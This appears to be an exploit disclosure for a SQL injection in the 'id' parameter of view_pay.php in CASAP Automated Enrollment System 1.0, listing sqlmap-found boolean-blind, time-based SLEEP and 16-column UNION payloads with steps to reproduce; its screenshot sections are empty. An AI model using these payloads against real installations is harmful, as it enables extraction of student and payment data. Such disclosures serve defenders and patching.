



# Exploit Title: CASAP-Automated-Enrollment-System – SQL Injection in view_pay.php (`http://localhost/automated/view_pay.php?id=1`)

**Date:** 2025-08-11  
**Exploit Author:** Anonymous  
**Vendor Homepage:** https://www.sourcecodester.com/php/12210/casap-automated-enrollment-system.html  
**Software Link:**  https://www.sourcecodester.com/download-code?nid=12210&title=CASAP+Automated+Enrollment+System+using+PHP%2FMySQLi+with+Source+Code  
**Version:** 1.0  
**Tested on:** PHP 7.4 on Ubuntu 20.04  

---

## Summary

A SQL Injection vulnerability exists in the `view_pay.php` endpoint of **CASAP-Automated-Enrollment-System**. Unsanitized user input in the specified parameter is interpolated directly into an SQL query, allowing attackers to infer or extract data and, in some cases, execute stacked/time-based payloads.  
**Back-end DBMS (as detected):** MySQL >= 5.0.12 (MariaDB fork)  
**CWE:** CWE-89 (SQL Injection)  
**Severity:** High (placeholder — adjust once CVSS is computed)

## Affected Component & Parameter

### Affected Endpoint

- **URL:** `http://localhost/automated/view_pay.php?id=1`
- **HTTP Method:** GET
- **Vulnerable File:** `view_pay.php`
- **Parameter:** `id`
- **Vector Location:** GET

### Injection Techniques (as identified by sqlmap)
- **Type:** boolean-based blind
  - **Title:** AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
  - **Payload:** `id=1' AND 7421=(SELECT (CASE WHEN (7421=7421) THEN 7421 ELSE (SELECT 4370 UNION SELECT 3918) END))-- -`
- **Type:** time-based blind
  - **Title:** MySQL >= 5.0.12 AND time-based blind (query SLEEP)
  - **Payload:** `id=1' AND (SELECT 9799 FROM (SELECT(SLEEP(5)))hbwb)-- vBIJ`
- **Type:** UNION query
  - **Title:** Generic UNION query (NULL) - 16 columns
  - **Payload:** 
```
id=-3938' UNION ALL SELECT NULL,CONCAT(0x7176706271,0x764953636f42746d704d6353596f446f58646958694e507770677371696766595a794d55594d5665,0x71766b6a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
```


## Proof of Concept (Burp Repeater)



## SQLMap Summary




## Technical Description

The vulnerable parameter is reflected into the SQL statement without proper validation or prepared statements. Boolean-based blind, time-based blind (SLEEP), and/or UNION-based vectors were verified by sqlmap. This enables database enumeration and potential data exfiltration under the privileges of the application’s DB user.

## Impact

- Enumeration of database schemas, tables, and rows  
- Exposure of sensitive user/operational data  
- Potential lateral movement if credentials or session material are stored in DB

## Steps to Reproduce

1. Browse to `http://localhost/automated/view_pay.php?id=1`.  
2. Intercept the request and inject the provided payload(s) into parameter `view_pay.php?&<param>=...`.  
3. Observe conditional responses / time delays / injected row reflections per technique above.  
4. Confirm DBMS fingerprinting and data extraction as permitted by the app’s DB privileges.

## Vulnerable Code (Screenshot)




References
OWASP: SQL Injection Prevention Cheat Sheet

CWE-89: SQL Injection
